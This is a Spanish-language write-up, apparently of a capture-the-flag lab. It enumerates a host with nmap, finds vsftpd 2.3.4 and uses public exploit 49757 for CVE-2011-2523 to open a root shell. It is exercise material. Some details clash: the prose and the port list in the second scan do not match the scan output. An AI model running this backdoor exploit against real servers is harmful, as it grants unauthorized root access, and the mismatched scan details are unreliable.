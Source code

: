 #ftp #command-execution

![](../../../Images/Pasted%20image%2020241008071742.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio **SSH** i un servicio **HTTP** funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 15:44 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 15:44 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.85 seconds
```

## FTP (21 TCP Port)

Enumerando el servicio **FTP** nos encontramos con una versión que tiene la vulnerabilidad [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) que permite la ejecución de comandos.

Descargando el siguiente [exploit](https://www.exploit-db.com/exploits/49757) conseguimos acceso al sistema objetivo directamente con permisos de administrador.

```
> python3 49757 172.17.0.2

/home/rh4ps00dy/Downloads/firsthacking/49757:11: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
Success, shell opened
Send `exit` to quit shell
id
uid=0(root) gid=0(root) groups=0(root)
```